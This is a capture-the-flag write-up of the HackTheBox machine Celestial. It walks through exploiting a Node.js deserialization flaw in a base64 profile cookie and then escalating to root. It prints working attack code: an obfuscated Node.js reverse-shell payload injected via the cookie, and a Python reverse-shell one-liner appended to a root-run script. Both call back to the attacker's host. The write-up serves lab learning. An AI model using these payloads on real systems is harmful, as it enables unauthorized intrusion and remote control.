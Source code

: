 ```yaml
---
layout: post
title:  "HackTheBox Writeup: Celestial"
date:   2018-04-24 00:00:00 -0400
categories: master
---
```


An nmap port scan reveals that port 3000 to be the only open port.
```
nmap -p 1-65535 -sV -sS -T4 10.10.10.85 -v
[snip]
map scan report for 10.10.10.85
Host is up (0.20s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE VERSION
3000/tcp open  http    Node.js Express framework
```

Going to that port in a browser reveals a 404. Exciting.

![404 on port 3000](https://i.imgur.com/zZwz6Bb.png "404 on port 3000 on 
Celestial")

However, the site does generate a cookie named `profile` which looks to 
be base64 encoded.

![Profile cookie on Celestial](https://i.imgur.com/nSZhXvp.png "Base64 
Profile Cookie")

```
eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb
21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIifQ==
``` 

Which decodes to:
```
{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}
```

This could be a hint that we are looking for a deserialization 
vulnerability. A quick google search of `Node.js Express Framework 
exploit` turns up a [blog 
post](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/) 
that gives us exactly what we're looking 
for. In summary, the web application decodes the `profile` cookie and 
passes it to the `unserialize()` function.

Following along, I downloaded the 
[nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) 
which generates a Node.js reverse shell.

```
root@kali:~# python nodejsshell.py 10.10.14.78 4444
[+] LHOST = 10.10.14.78
[+] LPORT = 4444
[+] Encoding
eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,
105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,
61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,
101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,49,48,
46,49,52,46,55,56,34,59,10,80,79,82,84,61,34,52,52,52,52,34,59,10,84,73,77,69,
79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,
83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,
116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,
32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,
111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,
41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,
79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,
116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,
118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,
111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,
110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,
110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,
112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,
32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,
101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,
110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,
32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,
105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,
114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,
32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,
40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,
32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,
116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,
32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,
111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,
32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,
82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,
40,72,79,83,84,44,80,79,82,84,41,59,10))
```
We also have to add `{"rce":"_$$ND_FUNC$$_function (){ ` to the 
beginning and `}()"}` to the end of the output. Encoding the entire 
snippet with Base64 and passing that off to the `profile` cookie gives 
us a reverse shell. We can do this using BurpSuite Proxy.

![injecting code via Burp Suite Proxy](https://i.imgur.com/bfWbBl2.png 
"Injecting a Node.js reverse shell using Burp Suite Proxy")

Firing off the request gives us our first shell.

![low privilege shell](https://i.imgur.com/GdJentD.png "Low Privilege 
Shell on Celestial")

We see we have an `output.txt` in the current directory, which is owned 
by root.
```
$ ls
ls
Desktop    examples.desktop  output.txt  script.py  Videos
Documents  Music	     Pictures	 server.js
Downloads  node_modules      Public	 Templates
$ cat output.txt
cat output.txt
Script is running...
$ ls -lah output.txt
ls -lah output.txt
-rw-r--r-- 1 root root 21 Apr 25 01:35 output.txt
```

In the `Documents` directory, we have `script.py`
```
$ cd Documents
cd Documents
$ ls
ls
script.py  user.txt
$ cat script.py
cat script.py
print "Script is running..."
$ ls -lah script.py
ls -lah script.py
-rwxrwxrwx 1 sun sun 29 Sep 21  2017 script.py
```

What's interesting is that the script is owned by a normal user while 
the output file is owned by root.  I suspect injecting a python 
reverse 
shell into `script.py` will give us a shell with root privileges.

```
$ echo 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.78",1234));os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);' >> script.py
```

After waiting a few moments, we get our shell with root privileges.

![root shell](https://i.imgur.com/FektGSs.png "Root Shell 
on Celestial")
